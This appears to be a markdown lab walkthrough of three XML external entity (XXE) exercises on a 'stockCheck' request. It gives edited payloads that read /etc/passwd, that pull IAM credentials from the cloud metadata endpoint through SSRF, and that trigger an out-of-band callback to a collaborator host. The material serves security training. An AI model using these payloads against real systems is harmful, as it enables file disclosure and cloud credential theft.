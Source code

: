 ## XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
</productId><storeId>1</storeId></stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
+ Result :
![xml](./img/xml.png)

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Result

![sml2](./img/xml2.png)

## Blind XXE with out-of-band interaction
+ Create buup collaborator 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://v0wkda9pdo2k1tbpgvnyzak8azgq4gs5.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

+ Result :
![xml3](./img/xml3.png)
![xml3](./img/xml3.1.png)